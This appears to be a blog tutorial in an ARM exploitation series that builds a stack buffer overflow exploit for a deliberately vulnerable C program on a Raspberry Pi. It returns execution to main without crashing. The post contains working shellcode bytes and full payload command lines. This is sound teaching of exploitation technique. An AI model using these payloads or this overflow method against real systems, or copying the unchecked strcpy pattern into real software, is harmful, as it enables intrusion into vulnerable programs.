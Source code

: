 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing"
excerpt:  "In this blog post, I will introduce you to ARM exploitation with Raspberry Pi and discuss how to return back to a program without crashing. We will be exploring the basics of stack buffer overflow and the techniques to bypass stack protections."  
seo_title:  "ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing"
seo_description:  "Learn how to perform ARM exploitation with Raspberry Pi and return back to a program without crashing. This blog post covers the basics of stack buffer overflow and techniques to bypass stack protections. Get started with ARM exploitation today."
header:
  image: "https://live.staticflickr.com/65535/49799517733_05b4a81f72_h.jpg"
  teaser: "https://live.staticflickr.com/65535/49799517733_05b4a81f72_h.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


In the previous post we have seen how to exploit using simple stack-based buffer overflow. 

[ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)

However, in that post, we exploited the stack using a shellcode and later the program crashed. What if we executed some basic instructions and then return back to the main program as if nothing happened?

In this post, we will learn how to return back to the main program without crashing (avoid segmentation fault) even after we are overflowing the buffer.

Here, we will use the same C program that we used before.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

## Debugging
The first thing we need to know is the original return address. We can simply find the return address by disassembling the main program.

```
gef➤  disass main
Dump of assembler code for function main:
   0x000104f4 <+0>:		push	{r11, lr}
   0x000104f8 <+4>:		add	r11, sp, #4
   0x000104fc <+8>:		sub	sp, sp, #8
   0x00010500 <+12>:	str	r0, [r11, #-8]
   0x00010504 <+16>:	str	r1, [r11, #-12]
   0x00010508 <+20>:	ldr	r3, [r11, #-12]
   0x0001050c <+24>:	add	r3, r3, #4
   0x00010510 <+28>:	ldr	r3, [r3]
   0x00010514 <+32>:	mov	r0, r3
   0x00010518 <+36>:	bl	0x104b4 <vulnerable>
   0x0001051c <+40>:	mov	r3, #0
   0x00010520 <+44>:	mov	r0, r3
   0x00010524 <+48>:	sub	sp, r11, #4
   0x00010528 <+52>:	pop	{r11, pc}
End of assembler dump.
```

Here, we see, after the main functions calls **`vulnerable`** at address `0x00010518`, it returns back to the main at **`0x0001051c`**. 

So, after performing the `strcpy` in the `vulnerable` function, if we can return back to the original address, we can avoid the segmentation fault.

**Note**: usually, after overflowing the buffer and overwriting the original return address with the one points at NOP inside the same buffer, the program crashes as it no longer contains the original address.

Now, here, we will discuss two different ways to return back to the original program.
1. Return Using Program Counter
2. Return Using Linking Register

Here, the payload will look like as follows:
```
payload = NOP + shellcode + original return address 
		+ padding + overwritten return address pointing NOP 
```

## Return Using Program Counter
Here, we can simply load the return address in the `Program Counter` and the PC will point back to the main program.


### Assembly Code
Here is the instruction set that loads the address in PC.
```bash
.globl _start
_start:
	ADD R11, SP, #12
	LDR R1, [PC, #4]
	SUB PC, R1, #0x01000000

# as testf.s -o testf.o && ld -N testf.o -o testf
```
Point to be noted, we have the return address as **`0x0001051c`**, which have a NULL byte. So, we cannot simply use the instruction `LDR PC, [PC, #4]`. To remove it, first we load the address without null byte in register `R1` and then we subtract whatever we added to remove the NULL byte.

In ARM, the PC by default points to the instruction position by 8 Bytes from the current instruction. So, if we use `PC, #4`, that means we will have to use 4 Bytes of padding before we put the address in `Little Endian` format.

Using the first instruction, we fixed the frame address as it changes by 12 Bytes when it executes our shellcode. It may vary depending on the system you use.


### Shell Code
Now, we will generate the shellcode of the binary file as follows.
```bash
pi@raspberry$ ./hexstring.sh testf
"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2"
```

Note that, the code of the script named **`hexstring.sh`** is available in the first post of our exploitation tutorial series.

See post: [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)

### Debugging
Let's first disassemble the vulnerable function
```
gef➤  disassemble vulnerable
Dump of assembler code for function vulnerable:
   0x000104b4 <+0>:		push	{r11, lr}
   0x000104b8 <+4>:		add	r11, sp, #4
   0x000104bc <+8>:		sub	sp, sp, #112	; 0x70
   0x000104c0 <+12>:	str	r0, [r11, #-112]	; 0xffffff90
   0x000104c4 <+16>:	sub	r3, r11, #104	; 0x68
   0x000104c8 <+20>:	mov	r1, r3
   0x000104cc <+24>:	ldr	r0, [pc, #28]	; 0x104f0 <vulnerable+60>
   0x000104d0 <+28>:	bl	0x10354 <printf@plt>
   0x000104d4 <+32>:	sub	r3, r11, #104	; 0x68
   0x000104d8 <+36>:	ldr	r1, [r11, #-112]	; 0xffffff90
   0x000104dc <+40>:	mov	r0, r3
   0x000104e0 <+44>:	bl	0x10360 <strcpy@plt>
   0x000104e4 <+48>:	nop			; (mov r0, r0)
   0x000104e8 <+52>:	sub	sp, r11, #4
   0x000104ec <+56>:	pop	{r11, pc}
   0x000104f0 <+60>:			; <UNDEFINED> instruction: 0x000105b8
End of assembler dump.
```
Now, let's take the breakpoint at the last instruction that returns back to the main function.
```
gef➤  b *0x000104ec
Breakpoint 1 at 0x104ec
```
Now, let's exploit using the following payload:
```
gef➤ run $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2" + "AAAA"+ "\x1c\x05\x01\x01" + "JUNK"+ "\xd8\xf3\xff\x7e"')
```
Now, we can check the register contents and step by step instruction execution using the **`stepi`** command.

### Execution in Terminal
If succeed using the debugger, we can now test in the terminal. 

```bash
pi@raspberry$ ./buf $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2" + "AAAA"+ "\x1c\x05\x01\x01" + "JUNK"+ "\x6c\xf4\xff\x7e"')
```
One thing to remember, the address of the buffer may change outside gdb. So, first check the address printed while running the program.

## Return Using Linking Register
As `LR` contains the return address, we can also load the original address again in the LR and then branch (BX) to it. Here, follow the similar steps we discussed above.
 
### Assembly Instruction
```
.globl _start
_start:
	ADD R11, SP, #12
	LDR LR, [PC, #4]
	SUB LR, LR, #0x01000000
	BX LR

# as testa.s -o testa.o && ld -N testa.o -o testa
```

### Shellcode
```
"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"
```

### Debugging
```
gef> run $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"+ "\x1c\x05\x01\x01" + "JUNK"+ "\xd8\xf3\xff\x7e"')
```

### Execution in Terminal
```
./buf $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"+ "\x1c\x05\x01\x01" + "JUNK"+ "\x7c\xf4\xff\x7e"')
```


## Full ARM Exploitation Series
* [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)
* [ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)
* [ARM Exploitation with Raspberry Pi: ARM Ret-to-Libc](https://shantoroy.com/security/ret-to-libc-arm-exploitation-raspberry-pi/)
* [ARM Exploitation with Raspberry Pi: Introduction to Return Oriented Programming (ROP)](https://shantoroy.com/security/simple-rop-arm-exploitation-return-oriented-programming/)
* [Using Ropper to find ROP Gadgets](https://shantoroy.com/security/using-ropper-to-find-address-of-gadgets/)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTcwMTgyNjI1OCwtMjE0Mzg4NzE5MSwxMD
EzMTgxODc4LC03Nzg2NDkzNzQsLTE0NjkxMjcyMzksMjA0NDAw
Nzc5NSwxODkzMDc3Mzg0LDEwNjQ1ODM0MTMsMjkzMTcyNTEsOT
YzNDI3NzQ0LDE4OTU2Nzg4NTQsMTIyNTA1NDYwMV19
-->